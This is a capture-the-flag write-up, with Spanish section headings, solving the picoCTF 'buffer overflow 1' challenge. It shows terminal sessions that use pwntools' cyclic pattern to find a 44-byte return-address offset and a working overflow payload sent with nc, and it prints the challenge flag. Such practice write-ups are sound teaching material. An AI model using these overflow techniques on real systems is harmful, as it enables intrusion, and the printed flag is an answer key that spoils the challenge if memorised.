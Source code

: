 # buffer overflow 1

## Descripción
Control the return address Now we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/185/vuln). You can view source [here](https://artifacts.picoctf.net/c/185/vuln.c). And connect with it using `nc saturn.picoctf.net 63713`
## Pistas

## Solución
```bash
┌──(kali㉿kali)-[~]
└─$ cd Documents/binaryExplloitation/bufferflow1 
                                                                                                                                                                      
┌──(kali㉿kali)-[~/Documents/binaryExplloitation/bufferflow1]
└─$ ls
vuln  vuln.c
                                                                                                                                                                      
┌──(kali㉿kali)-[~/Documents/binaryExplloitation/bufferflow1]
└─$ echo 'aaaaaaaaaaaaaaaaaaaaaaaaaaa' | ./vuln                                                   
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x804932f
                                                                                                                                                                      
┌──(kali㉿kali)-[~/Documents/binaryExplloitation/bufferflow1]
└─$ echo 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa' | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c
zsh: done                echo  | 
zsh: segmentation fault  ./vuln
                                                                                                                                                                       
┌──(kali㉿kali)-[~/Documents/binaryExplloitation/bufferflow1]
└─$ echo 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa' | ./vuln       
┌──(kali㉿kali)-[~/Documents/binaryExplloitation/bufferflow1]
└─$ echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08' | nc saturn.picoctf.net 64273                   
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_a8284f4f}   

┌──(kali㉿kali)-[~]
└─$ python3                       
Python 3.11.2 (main, Feb 12 2023, 00:48:52) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
>>> cyclic_find(0x6161616c)
44
>>> 'A'*44
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
>>> p32(0x080491f6)
b'\xf6\x91\x04\x08'
>>> 

```
## Bandera
picoCTF{addr3ss3s_ar3_3asy_a8284f4f} 

## Notas Adicionales 

## Referencias